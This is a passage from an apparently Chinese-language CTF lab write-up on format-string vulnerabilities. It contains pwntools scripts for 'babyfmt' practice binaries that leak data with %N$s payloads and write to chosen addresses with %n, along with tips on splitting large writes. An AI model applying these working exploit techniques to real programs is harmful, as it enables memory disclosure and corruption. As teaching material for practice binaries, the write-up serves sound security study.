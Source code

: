 ```python
p.sendline(b"%7$s")
p.recvuntil(b"I will now call printf on your data!")
p.recvline()
p.recvline()
secret = p.recvline()
log.success(f"secret: {secret}")
p.recvuntil(b"What is the secret password?")
p.sendline(secret)
p.interactive()
```

## 1.3 data和指向data的指针不放在栈上，但是fmt在栈上<br>
在这种情况下，如果我们能够知道data的地址，就可以将其写入fmt中，由其帮我们打印data<br>
没有地址，就创造地址！<br>
```python
from pwn import *
context.log_level = 'debug'
context.os = 'linux'
context.arch ='amd64'
context.terminal = ['tmux','splitw','-h']
binary_path = './babyfmt_level3.1'

p = process(binary_path)
gdb.attach(p,"b *0x401468")
pause()
p.sendline(b"aa%23$s"+p64(0x404100))

p.interactive()
```

# 2. write data<br>
## 2.1 指向data的指针不在栈上，但fmt在栈上<br>
如果我们能够知道data的地址，那么就能够将其写入fmt中，利用`%6$n`等手段来往其中写入值<br>
```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux','splitw','-h']

binary_path = "./babyfmt_level4.1"
p = process(binary_path)

p.recvuntil(b"I will now read up to 256 bytes. Send your data!")
gdb.attach(p,"b *0x4014B4")
pause()

payload = b"%234x%25$n"+b"a"*4+p64(0x4040D8)
p.send(payload)

p.interactive()
```
### 2.1.1 特例: 写一个超大值<br>
如果你需要在某个地址处，写一个8字节的值，可以考虑将其切片成2+2+2+2的形式，否则直接打印一个八字节数量的字符串，很可能撑爆你的terminal！<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
#context.terminal=['tmux','splitw','-h']
```